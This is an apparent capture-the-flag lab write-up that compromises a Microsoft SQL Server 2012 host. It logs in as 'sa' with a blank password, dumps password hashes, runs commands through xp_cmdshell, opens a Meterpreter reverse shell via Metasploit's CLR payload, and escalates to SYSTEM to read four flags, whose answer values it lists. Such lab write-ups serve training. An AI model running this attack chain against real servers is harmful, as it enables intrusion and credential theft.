

## Tasks



## Enumeration

```
sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p1433 target.ine.local
```

```
PORT     STATE SERVICE  VERSION
1433/tcp open  ms-sql-s Microsoft SQL Server 2012 11.00.6020.00; SP3
| ms-sql-empty-password:
|   10.2.27.149\MSSQLSERVER:
|_    sa:<empty> => Login Success
| ms-sql-ntlm-info:
|   10.2.27.149\MSSQLSERVER:
|     Target_Name: WIN-5BQ22OKH4SO
|     NetBIOS_Computer_Name: WIN-5BQ22OKH4SO
|     DNS_Computer_Name: WIN-5BQ22OKH4SO
|_    Product_Version: 6.3.9600
| ms-sql-dump-hashes:
|   10.2.27.149\MSSQLSERVER:
|     sa:0x020056f5245d8dd0f502737b7850ac73e66bac6bb6c82295f6669effdfc14b72f9bbe76205453bceef2815df114806bbc89392d486c8f00a4bcc4a740ac434b7c06b4b6816cb
|     ##MS_PolicyTsqlExecutionLogin##:0x02002e06a796e871a4e41040af6dc0b990d6f6431e413b9193297939f3acf2e302c699144273ea0bbe22af21677d4ae5853755d68eeba3b554bc089cc0a89e723b0763281f27
|_    ##MS_PolicyEventProcessingLogin##:0x020079a919a15927191c167102d7aa99be5dc2fffc67d3d744de4b27a5a74f11def83bcb9da89255f655db083abaa127b76be9f93de50e6526111ce36cad13d47201385f903c
| ms-sql-info:
|   10.2.27.149\MSSQLSERVER:
|     Instance name: MSSQLSERVER
|     Version:
|       name: Microsoft SQL Server 2012 SP3
|       number: 11.00.6020.00
|       Product: Microsoft SQL Server 2012
|       Service pack level: SP3
|     TCP port: 1433
|_    Clustered: false
```

The `ms-sql-empty-password` script confirms the `sa` account has a blank password. 

---
## Flag 1

> _Gain access to the MSSQLSERVER account on the target machine to retrieve the first flag._

Connecting as `sa` with a blank password using Impacket's `mssqlclient.py`:

```
python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py sa@target.ine.local
```

```
Password:
[*] Encryption required, switching to TLS
[*] ACK: Result: 1 - Microsoft SQL Server (110 23132)
[!] Press help for extra shell commands
SQL (sa  dbo@master)>
```

`xp_cmdshell` is enabled, allowing OS command execution directly from T-SQL. Listing `C:\` and reading the flag:

```
SQL (sa  dbo@master)> xp_cmdshell "whoami"
output
----------------------
nt service\mssqlserver

SQL (sa  dbo@master)> xp_cmdshell "type c:\flag1.txt"
output
--------------------------------
632ea04abc7940dba0bbce536ad3b9fb
```

The service is running as `NT SERVICE\MSSQLSERVER` — a low-privileged account, but one that holds `SeImpersonatePrivilege`, which becomes relevant for Flag 2.

---
## Flag 2

> _Locate the second flag within the Windows configuration folder._

Attempting to read `C:\Windows\System32\config\flag2.txt` directly returns `Access is denied` because the `mssqlserver` service account does not have sufficient permissions on that directory.

```
SQL (sa  dbo@master)> xp_cmdshell "type c:\windows\system32\config\flag2.txt"
output
-----------------
Access is denied.
```

Checking token privileges confirms `SeImpersonatePrivilege` is available:

```
SQL (sa  dbo@master)> xp_cmdshell "whoami /priv"
...
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
```

`SeImpersonatePrivilege` allows the process to impersonate any token it can obtain, including SYSTEM. Normally this is exploited with tools like JuicyPotato or PrintSpoofer, but the lab environment has no internet access, so Metasploit's `mssql_clr_payload` module is used. It injects a CLR assembly directly into SQL Server to spawn a Meterpreter shell, after which `getsystem` performs the Named Pipe Impersonation (PrintSpooler variant) to elevate to SYSTEM:

```
msf6 > use exploit/windows/mssql/mssql_clr_payload
msf6 exploit(...) > set payload windows/x64/meterpreter/reverse_tcp
msf6 exploit(...) > set rhosts target.ine.local
msf6 exploit(...) > run

[*] Meterpreter session 1 opened (10.10.41.3:4444 -> 10.2.27.149:49857)

meterpreter > getsystem
...got system via technique 5 (Named Pipe Impersonation (PrintSpooler variant)).
meterpreter > shell
```

```
C:\Windows\system32> type c:\windows\system32\config\flag2.txt
158369aa42bd453eb5c04a6fd79f23e0
```

---
## Flag 3

> _The third flag is also hidden within the system directory. Find it to uncover a hint for accessing the final flag._

With SYSTEM privileges, a recursive search for `.txt` files under `C:\Windows\System32\` reveals an unusually named file:

```
C:\Windows\system32> dir /s /b c:\windows\system32\*.txt 2>nul
```

```
c:\windows\system32\catroot2\dberr.txt
c:\windows\system32\config\flag2.txt
c:\windows\system32\drivers\etc\EscaltePrivilageToGetThisFlag.txt
c:\windows\system32\en-US\erofflps.txt
...
```

The filename itself is the hint, privilege escalation was required to reach this point. Reading it:

```
C:\Windows\system32> type drivers\etc\escalteprivilagetogetthisflag.txt
262535c1a3d844f685103058fadcf530
```

---
## Flag 4

> _Investigate the Administrator directory to find the fourth flag._

With SYSTEM-level access the entire filesystem is readable. `flag4.txt` is on the Administrator's desktop:

```
C:\Windows\system32> type c:\users\administrator\desktop\flag4.txt
b4a8091189f5435b8c74bf0df647f3cb
```

---
## Summary

| #   | Technique                                                    | Flag                               |
| --- | ------------------------------------------------------------ | ---------------------------------- |
| 1   | MSSQL `sa` blank password + `xp_cmdshell` RCE                | `632ea04abc7940dba0bbce536ad3b9fb` |
| 2   | `SeImpersonatePrivilege` → SYSTEM (CLR payload + Named Pipe) | `158369aa42bd453eb5c04a6fd79f23e0` |
| 3   | SYSTEM filesystem enumeration (`System32`)                   | `262535c1a3d844f685103058fadcf530` |
| 4   | Administrator desktop access                                 | `b4a8091189f5435b8c74bf0df647f3cb` |
